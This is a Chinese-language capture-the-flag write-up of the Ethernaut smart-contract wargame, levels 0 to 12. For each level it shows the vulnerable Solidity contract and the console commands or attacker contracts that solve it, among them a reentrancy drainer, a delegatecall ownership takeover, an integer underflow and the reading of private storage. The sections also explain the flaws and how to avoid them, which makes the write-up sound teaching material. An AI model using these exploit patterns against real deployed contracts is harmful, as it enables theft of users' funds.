


# 0.Hello Ethernaut

初步了解Eth
浏览器输入player 可以看到账户地址，目前是使用Sepolia来获取部署合约

```json
ethernaut

n {methods: {…}, abi: Array(13), address: '0xa3e7317E591D5A0F1c605be1b3aC4D2ae56104d6', transactionHash: undefined, constructor: ƒ, …}
LevelCompletedLog:ƒ (n,i)
LevelInstanceCreatedLog:ƒ(n,i)
OwnershipTransferred: ƒ (n,i)
abi: (13) [{…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}]
address: "0xa3e7317E591D5A0F1c605be1b3aC4D2ae56104d6"
allEvents: ƒ (n)
call: ƒ ()
constructor: ƒ ()
contract: R {_requestManager: e, givenProvider: Proxy(c), providers: {…}, setProvider: ƒ, …}
createLevelInstance: ƒ ()
emittedInstances: ƒ ()
estimateGas: ƒ ()
getPastEvents: ƒ (n,a)
methods: {createLevelInstance(address): ƒ, emittedInstances(address): ƒ, owner(): ƒ, registerLevel(address): ƒ, registeredLevels(address): ƒ, …}
owner: ƒ ()
registerLevel: ƒ ()
registeredLevels: ƒ ()
renounceOwnership: ƒ ()
send: ƒ (e)
sendTransaction: ƒ ()
setStatistics: ƒ ()
statistics: ƒ ()
submitLevelInstance: ƒ ()
transactionHash: undefined
transferOwnership: ƒ ()
[[Prototype]]: t
```

在F12中可以使用控制台来实现对该合约的查看

help()

| (index)                    | Value                                                       |
| :------------------------- | :---------------------------------------------------------- |
|                            |                                                             |
| player                     | '当前玩家地址'                                              |
| ethernaut                  | '主游戏合约'                                                |
| level                      | '当前关卡合约地址'                                          |
| contract                   | '当前关卡合约实例 (如果已创建)'                             |
| instance                   | '当前关卡合约实例地址 (如果已创建)'                         |
| version                    | '当前游戏版本'                                              |
| getBalance(address)        | '获知地址可用ether数'                                       |
| getBlockNumber()           | '获取当前网络区块数'                                        |
| sendTransaction({options}) | '发送交易到'                                                |
| getNetworkId()             | '获得以太网id'                                              |
| toWei(ether)               | '从ether转换到wei'                                          |
| fromWei(wei)               | '从wei转换到ether'                                          |
| deployAllContracts()       | 'Deploy all the remaining contracts on the current network' |

按照提示，查看contract.info() **method** and then info1()then info2("hello") then infoNum() info42() theMethodName()

```c
> await contract.info()
< "You will find what you need in info1()."

> await contract.info1()
< "Try info2(), but with "hello" as a parameter."

> await contract.info2("hello")
< "The property infoNum holds the number of the next info method to call."

> await contract.infoNum()
< BN {negative: 0, words: [42, empty], length: 1, red: null}

> await contract.info42()
< "theMethodName is the name of the next method."

> await contract.theMethodName()
< "The method name is method7123949."

> await contract.method7123949()
< "If you know the password, submit it to authenticate()."

> await contract.password()
< "ethernaut0"

> await contract.authenticate("ethernaut0")
```

可以使用await来使返回值更精确省去其他情况

最后提交实例，得到已完成

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Instance {

  string public password;
  uint8 public infoNum = 42;
  string public theMethodName = 'The method name is method7123949.';
  bool private cleared = false;

  // constructor
  constructor(string memory _password) {
    password = _password;
  }

  function info() public pure returns (string memory) {
    return 'You will find what you need in info1().';
  }

  function info1() public pure returns (string memory) {
    return 'Try info2(), but with "hello" as a parameter.';
  }

  function info2(string memory param) public pure returns (string memory) {
    if(keccak256(abi.encodePacked(param)) == keccak256(abi.encodePacked('hello'))) {
      return 'The property infoNum holds the number of the next info method to call.';
    }
    return 'Wrong parameter.';
  }

  function info42() public pure returns (string memory) {
    return 'theMethodName is the name of the next method.';
  }

  function method7123949() public pure returns (string memory) {
    return 'If you know the password, submit it to authenticate().';
  }

  function authenticate(string memory passkey) public {
    if(keccak256(abi.encodePacked(passkey)) == keccak256(abi.encodePacked(password))) {
      cleared = true;
    }
  }

  function getCleared() public view returns (bool) {
    return cleared;
  }
}
```

可以看到源码，通过不同方法的调用可以得到不同的返回值。

# 1.Fallback

仔细看下面的合约代码.

通过这关你需要

1. 获得这个合约的所有权
2. 把他的余额减到0

 这可能有帮助

- 如何通过与ABI互动发送ether
- 如何在ABI之外发送ether
- 转换 wei/ether 单位 (参见 `help()` 命令)
- Fallback 方法

这是题面

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

按照提示，搜索什么是fallback方法

Fallback function:

A contract can have at most one `fallback` function, declared using either `fallback () external [payable]` or `fallback (bytes calldata input) external [payable] returns (bytes memory output)` (both without the `function` keyword). This function must have `external` visibility. A fallback function can be virtual, can override and can have modifiers.

The fallback function is executed on a call to the contract if none of the other functions match the given function signature, or if no data was supplied at all and there is no [receive Ether function](https://docs.soliditylang.org/en/latest/contracts.html#receive-ether-function). The fallback function always receives data, but in order to also receive Ether it must be marked `payable`.

If the version with parameters is used, `input` will contain the full data sent to the contract (equal to `msg.data`) and can return data in `output`. The returned data will not be ABI-encoded. Instead it will be returned without modifications (not even padding).

只要调用 `contribute()` 后，再发送交易，会 fallback 进入到 `receive()` 函数，最后 `withdraw()`

A contract can have at most one `receive` function, declared using `receive() external payable { ... }` (without the `function` keyword). This function cannot have arguments, cannot return anything and must have `external` visibility and `payable` state mutability. It can be virtual, can override and can have modifiers.

The receive function is executed on a call to the contract with empty calldata. This is the function that is executed on plain Ether transfers (e.g. via `.send()` or `.transfer()`). If no such function exists, but a payable [fallback function](https://docs.soliditylang.org/en/latest/contracts.html#fallback-function) exists, the fallback function will be called on a plain Ether transfer. If neither a receive Ether nor a payable fallback function is present, the contract cannot receive Ether through a transaction that does not represent a payable function call and throws an exception.

从原协议中看只要调用了receive函数并且给钱就能让该contract的所有者改变

调用contract.contribute({value: toWei("0.00001")})，接着就可以调用receive函数了

我们再回头看该contract的构造方法，构造者的contribution是1000 *(1 ether)，而我们只能用付钱的方法来超过这个构造者，是不可行的（你要是财大气粗那你nb

接着我们调用sendTransaction(),可以看到能调用withdraw了，这说明modifier onlyOwner通过了，因此我们满足了条件。


提交该盒，通关

# 2.Fallout

获得以下合约的所有权来完成这一关.

 这可能有帮助

- Solidity Remix IDE

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;
  
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

查看该合约 有引用库SafeMath.sol

和上一题一样，通过贡献之类的方式来卡攻击者，但是注意到Fal1out()函数可以payable public，因此只要调用该函数即可获得控制权

```solidity
await contract.owner()
'0x0000000000000000000000000000000000000000'
await contract.Fal1out()
{tx: '0x064fd73b90d7faeb2b70f6870d5b01a7d72d5bb373cd8ecd268ddd07cddca168', receipt: {…}, logs: Array(0)}logs: []receipt: {blockHash: '0x1e69bda0aa991dbbcaf31f322e892d98af9cdbf974c8da43fabb67f13d33cc15', blockNumber: 3841040, contractAddress: null, cumulativeGasUsed: 1164391, effectiveGasPrice: 568, …}tx: "0x064fd73b90d7faeb2b70f6870d5b01a7d72d5bb373cd8ecd268ddd07cddca168"[[Prototype]]: Object
await contract.owner()
'0x4202703Cd4d87b3DD424Bd2eD5EB8C2E1f05E0f7'
```

解释：以跟合約同名的函數作constructor使用，所以才會有這一題。而經過語法改善，現在早已改成用constructor關鍵字來定義，所以場景上可以說是不再適用。

# 3.CoinFlip

从本题开始进入智能合约的编写

这是一个掷硬币的游戏，你需要连续的猜对结果。完成这一关，你需要通过你的超能力来连续猜对十次。

 这可能能帮助到你

- 查看上面的帮助页面，["Beyond the console"](https://ethernaut.openzeppelin.com/help) 部分

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

要猜硬币的正反面，`uint256(blockhash(block.number - 1))`的奇偶是硬币正反面的决定值，猜对了`consecutiveWins`就加1，因为在猜之前我们就知道了blocknumber，因此是必中的

```solidity
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlip {
    using SafeMath for uint256;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address levelInstance;

  constructor(address _levelInstance) public {
      levelInstance = _levelInstance;
  }

  function guess() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    if (side == true) {
        ICoinFlip(levelInstance).flip(true);
    } else {
        ICoinFlip(levelInstance).flip(false);
    }
  }

}
```

最终我采用了该攻击合约，部署十个区块，在十个区块中攻击即可，每次攻击之后可以调用`contract.consecutiveWins()`来查看是否攻击成功。该攻击合约引入了SafeMath，并且constructor输入levelInstance来达到攻击的方法。（其实本质上不算是攻击，只是利用区块链的透明性进行交互）interface接口的作用就像该函数一样可以列出要调用的目标函数，在编译的时候就可以对该地址的该函数进行攻击

重复deploy，guess操作10次后提交

```solidity
await contract.consecutiveWins()
i {negative: 0, words: Array(2), length: 1, red: null}
length: 1
negative: 0
red: null
words: 
Array(2)
0: 4  ///这个显示的是consecutiveWins
length: 2
[[Prototype]]: Array(0)[[Prototype]]: Object

await contract.consecutiveWins()
i {negative: 0, words: Array(2), length: 1, red: null}
length: 1
negative: 0
red: null
words: (2) [10, empty]///变成10了
[[Prototype]]: Object
```

通过solidity产生随机数没有那么容易. 目前没有一个很自然的方法来做到这一点, 而且你在智能合约中做的所有事情都是公开可见的, 包括本地变量和被标记为私有的状态变量. 矿工可以控制 blockhashes, 时间戳, 或是是否包括某个交易, 这可以让他们根据他们目的来左右这些事情.

想要获得密码学上的随机数,你可以使用 [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), 它使用预言机, LINK token, 和一个链上合约来检验这是不是真的是一个随机数.

一些其它的选项包括使用比特币block headers (通过验证 [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), 或是 [Oraclize](http://www.oraclize.it/)).

# 4.Telephone

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

本關主要是為了指出tx.origin跟msg.sender的分別，當以智能合約呼叫智能合約時，msg.sender在被呼叫智能合約中，會是呼叫者智能合約的地址，而tx.origin則是最初呼叫智能合約的個人錢包地址。

调用合约，就像打电话一样，把owner修改掉

```solidity
pragma solidity ^0.6.0;

import './SafeMath.sol';

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract Telephone {
    using SafeMath for uint256;
    address levelInstance;
    
    constructor(address _levelInstance) public {
      levelInstance = _levelInstance;
    }
  
  function claim() public {
    ITelephone(levelInstance).changeOwner(msg.sender);
  }

}
```

过程中可以通过contract.owner()查看该合约的拥有者

这个例子比较简单, 混淆 `tx.origin` 和 `msg.sender` 会导致 phishing-style 攻击, 比如[this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

下面描述了一个可能的攻击.

1、使用 `tx.origin` 来决定转移谁的token, 比如.

```
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```

2.攻击者通过调用合约的 transfer 函数是受害者向恶意合约转移资产, 比如

```
function () payable {
  token.transfer(attackerAddress, 10000);
}
```

3、在这个情况下, `tx.origin` 是受害者的地址 ( `msg.sender` 是恶意协议的地址), 这会导致受害者的资产被转移到攻击者的手上.



[原文链接](https://davidkathoh.medium.com/tx-origin-vs-msg-sender-93db7f234cb9)


# 5.token

这一关的目标是攻破下面这个基础 token 合约

你最开始有20个 token, 如果你通过某种方法可以增加你手中的 token 数量,你就可以通过这一关,当然越多越好

 这可能有帮助:

- 什么是 odometer?

```solidity
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

import "5.Token/SafeMath.sol";

interface IToken {
    function transfer(address _to, uint _value) external returns (bool);
}

contract Token {
    using SafeMath for uint256;
    address levelInstance;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    function attack() public {
        IToken(levelInstance).transfer(msg.sender, 999999999);
    }

}
```

利用了uint永远不会小于0的结果，只会导致溢出

Overflow 在 solidity 中非常常见, 你必须小心检查, 比如下面这样:

```
if(a + c > a) {
  a = a + c;
}
```

另一个简单的方法是使用 OpenZeppelin 的 SafeMath 库, 它会自动检查所有数学运算的溢出, 可以像这样使用:

```
a = a.add(c);
```

如果有溢出, 代码会自动恢复.

# 6.Delegation

这一关的目标是申明你对你创建实例的所有权.

 这可能有帮助

- 仔细看solidity文档关于 `delegatecall` 的低级函数, 他怎么运行的, 他如何将操作委托给链上库, 以及他对执行的影响.
- Fallback 方法
- 方法 ID

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

想要在函数中调用别的contract中的函数，需要了解ABI

The Contract Application Binary Interface (ABI) is the standard way to interact with contracts in the Ethereum ecosystem, both from outside the blockchain and for contract-to-contract interaction. Data is encoded according to its type, as described in this specification. The encoding is not self describing and thus requires a schema in order to decode.

合约应用程序二进制接口（ABI）是与以太坊生态系统中的合约进行交互的标准方式，无论是从区块链外部还是合约到合约的交互。数据根据其类型进行编码，如本规范中所述。编码不是自描述的，因此需要一个架构才能解码。

The first four bytes of the call data for a function call specifies the function to be called. It is the first (left, high-order in big-endian) four bytes of the Keccak-256 hash of the signature of the function. The signature is defined as the canonical expression of the basic prototype without data location specifier, i.e. the function name with the parenthesised list of parameter types. Parameter types are split by a single comma - no spaces are used.

函数调用的调用数据的前四个字节指定要调用的函数。它是函数签名的 Keccak-256 哈希的第一个（左，大端高阶）四个字节。签名定义为没有数据位置说明符的基本原型的规范表达式，即带有括号的参数类型列表的函数名称。参数类型由单个逗号分隔 — 不使用空格。

`function`: an address (20 bytes) followed by a function selector (4 bytes). Encoded identical to `bytes24`.

There exists a special variant of a message call, named **delegatecall** which is identical to a message call apart from the fact that the code at the target address is executed in the context of the calling contract and `msg.sender` and `msg.value` do not change their values.

存在一种特殊的消息调用变体，名为 delegatecall，它与消息调用相同，除了目标地址处的代码在调用合约的上下文（即地址）中执行并且 `msg.sender` `msg.value` 不更改其值之外。

This means that a contract can dynamically load code from a different address at runtime. Storage, current address and balance still refer to the calling contract, only the code is taken from the called address.

这意味着合约可以在运行时从不同的地址动态加载代码。存储、当前地址和余额仍然是指调用合约，只是代码是从被叫地址中获取的。

因此我们学会了如何调用函数，通过最后的fallback函数，只要我们send data并且没有调用函数，就会调用fallback函数`(bool result,) = address(delegate).delegatecall(msg.data);`,data就是keccak256的前4字节

```solidity
因此：
>await contract.sendTransaction({data:web3.utils.sha3("pwn()").slice(0,10)})
就能运行函数pwn()
此时已经获得函数所有权
```

使用`delegatecall` 是很危险的, 而且历史上已经多次被用于进行 attack vector. 使用它, 你对合约相当于在说 "看这里, -其他合约- 或是 -其它库-, 来对我的状态为所欲为吧". 代理对你合约的状态有完全的控制权. `delegatecall` 函数是一个很有用的功能, 但是也很危险, 所以使用的时候需要非常小心.

请参见 [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) 这篇文章, 他详细解释了这个方法是如何窃取三千万美元的.

# 7.Force

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

The only way to remove code from the blockchain is when a contract at that address performs the `selfdestruct` operation. The remaining Ether stored at that address is sent to a designated target and then the storage and code is removed from the state. Removing the contract in theory sounds like a good idea, but it is potentially dangerous, as if someone sends Ether to removed contracts, the Ether is forever lost.
从区块链中删除代码的唯一方法是当该地址的合约执行操作 `selfdestruct` 时。存储在该地址的剩余以太币被发送到指定的目标，然后存储和代码从状态中删除。从理论上讲，删除合约听起来是个好主意，但它具有潜在的危险性，就像有人以太币发送到移除的合约中，以太币将永远丢失。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {
    address payable levelInstance;

    constructor(address payable _levelInstance) public payable {
        levelInstance = _levelInstance;
    }

    function give() public payable {
        selfdestruct(levelInstance);
    }
}
```

在部署合约的时候，要设置一下该消息的value，会存到address上，当selfdestruct时就会给到目标地址上去

在solidity中, 如果一个合约要接受 ether, fallback 方法必须设置为 `payable`.

**但是, 并没有发什么办法可以阻止攻击者通过自毁的方法向合约发送 ether, 所以, 不要将任何合约逻辑基于 `address(this).balance == 0` 之上.**

# 8.Vault

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```


要明确的是，区块链上一切都是透明的，private 关键字只能防止其他合约访问这个变量，不代表我们没法看到它的值。这也就是说，目标合约中的 password 是明文存在链上的。那么我们如何访问它呢？

我们需要了解一些 Solidity 合约的数据存储布局的知识。以下内容摘抄整理自[这里](https://learnblockchain.cn/books/geth/part7/storage.html)。

1. Solidity 合约的数据存储在容量为 2**256 的插槽（slot）数组中，每个插槽可以存储 32 字节数据
2. 数据在插槽中以低位对齐方式存储
3. 合约中定义的存储变量会按定义顺序存入插槽，比如目标合约中的例子，locked 会先存入插槽，然后是 password
4. 存储新的变量时，如果插槽剩余空间足以存储该变量，则该变量会存储在当前插槽中。如果插槽剩余空间不足，则会存储到下一个插槽中（比如以下合约，一共占用 3 个插槽）。

```solidity
 pragma solidity >0.5.0;

 contract StorageExample2 {
        uint256 a = 11; // 插槽 0，32 字节
        uint8 b = 12; // 插槽 1，1 字节
        uint128 c = 13; // 插槽 1，16 字节
        bool d = true; // 插槽 1，1 字节
        uint128 e =  14; // 插槽 2，32 字节
        uint[2] c = [13,14]; // 插槽 3，32 字节；插槽 4，32 字节
 }
```

由于这个特性，在写合约的时候我们需要注意变量的定义顺序，良好的顺序可以节约存储空间。此外，EVM 每次读取数据进行处理时，都是读取 32 字节，数据小于 32 字节的时候，还需要额外做 unpadding 等操作，因此相比取 32 字节值的数据，取小于 32 字节的数据需要消耗更多的 gas。

1. 动态大小变量（Mapping/动态数组）的存储另有规则，详见[文档](https://solidity.readthedocs.io/en/v0.7.4/internals/layout_in_storage.html)。这里简单说下：
   1. 对于 string 和 bytes，如果数据长度小于 31 字节，则数据会存储在高位字节，最低位字节存储 length * 2
   2. 如果数据长度超出 31 字节，则定义变量的插槽存储 length * 2 + 1，数据存储在第 keccak256(slot) 个插槽中。
   3. 对于动态数组，在定义变量的插槽存储 length，数据从第 keccak256(slot) 个插槽开始存储。在每个插槽中，数据以低位对齐方式排列。
   4. 对于 Mapping 而言，每个 Key 对应一份存储，其存储位置位于 keccak256(abi.encodePacked(key, slot))。
   5. 对于结构体这样的组合类型，则是在组合内部遵循上述规则递归处理。

也就是说，像这种明文在链上的存储，就相当于和全世界分享密码（正常存储需要存储密文keccak）

通过看storage就可以看到明文

```solidity 
await web3.eth.getStorageAt(Instance,0)//这是第一个locked的状态
await web3.eth.getStorageAt(Instance,1)//这是明文的字节存储
await web3.eth.getStorageAt(Instance,1).then(web.utils.toAscii)//可以看到明文
>'A very strong secret password :)'
```

调用locked输入密码（bytes32）就可以提交实例。

两个知识点

- 合约部署时，其构造函数从 `initCode` 获取参数的方式
- 合约 storage 变量在状态树中的存储方式

两种思路

- 通过 EtherScan 查看合约部署时的 inputdata
- 通过 `getStorageAt` 向后端节点查询地址存储树

[minestorage](https://sepolia.etherscan.io/tx/0xa85f25ab4641b3703f339c4c9d24578e09f7c0079d915ef79ac08e63f0d8c683#statechange)

# 9.King

题面有点复杂

下面的合约表示了一个很简单的游戏: 任何一个发送了高于目前价格的人将成为新的国王. 在这个情况下, 上一个国王将会获得新的出价, 这样可以赚得一些以太币. 看起来像是庞氏骗局.

这么有趣的游戏, 你的目标是攻破他.

当你提交实例给关卡时, 关卡会重新申明王位. 你需要阻止他重获王位来通过这一关.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

在反复阅读之后，理解了就是说当你付款超过目前king后，之后再有人付款超过你也无法改变king，也就是说在payable(king).transfer()时直接revert即可，就是说它这个款付不到我的合约中

```solidity 
pragma solidity ^0.8.0;

contract ForeverKing {
    constructor(address payable target) payable {
        uint prize = King(target).prize();
        (bool ok, ) = target.call{value:prize}("");
        require(ok, "call Failed.");
    }
}
```

最终采用了以上合约，成功修改了合约的king（注意要value>=prize）



大多数 Ethernaut 的关卡尝试展示真实发生的 bug 和 hack (以简化过的方式).

关于这次的情况, 参见: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) 和 [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html)

# 10.Re-entrancy

为了防止转移资产时的重入攻击, 使用 [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) 注意 `call` 只会返回 false 而不中断执行流. 其它方案比如 [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) 或 [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) 也可以使用.

`transfer` 和 `send` 不再被推荐使用, 因为他们在 Istanbul 硬分叉之后可能破坏合约 [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

总是假设资产的接受方可能是另一个合约, 而不是一个普通的地址. 因此, 他有可能执行了他的payable fallback 之后又“重新进入” 你的合约, 这可能会打乱你的状态或是逻辑.

重进入是一种常见的攻击. 你得随时准备好!

 

#### The DAO Hack

著名的DAO hack 使用了重进入攻击, 窃取了受害者大量的 ether. 参见 [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

在msg.sender.call会掉入合约的fallback中，只要再次调用withdraw，就会陷入循环，因此攻击合约如下

```solidity
pragma solidity 0.8;

interface IReentrancy {
    function donate (address) external payable;
    function withdraw(uint256) external;
}

contract Hack {
    IReentrancy private immutable target;

    constructor(address _target) {
        target = IReentrancy(_target);
    }

    // NOTE: attack cannot be called inside constructor
    function attack() external payable {
        target.donate{value: 1e18}(address(this));
        target.withdraw(1e18);

        require(address(target).balance == 0, "target balance > 0");
        selfdestruct(payable(msg.sender));
    }

    receive() external payable {
        uint256 amount = min(1e18, address(target).balance);
        if (amount > 0) {
            target.withdraw(amount);
        }
    }

    function min(uint256 x, uint256 y) private pure returns (uint256) {
        return x <= y ? x : y;
    }
}
```

转账金额不能太小不然会不知道为什么报错

然后提交实例

# 11.Elevator

电梯不会让你达到大楼顶部, 对吧?

##### 这可能有帮助:

- 有的时候 solidity 不是很擅长保存 promises.
- 这个 `电梯` 期待被用在一个 `建筑` 里.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

从该合约的14行来看，该Building是由


# 12.Privacy

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

由题面知想要unlock需要data[2]的数据 32bytes一个slot，因此要到第五个slot去寻找

``` javascript 
>await web3.eth.getStorageAt(instance, 5)
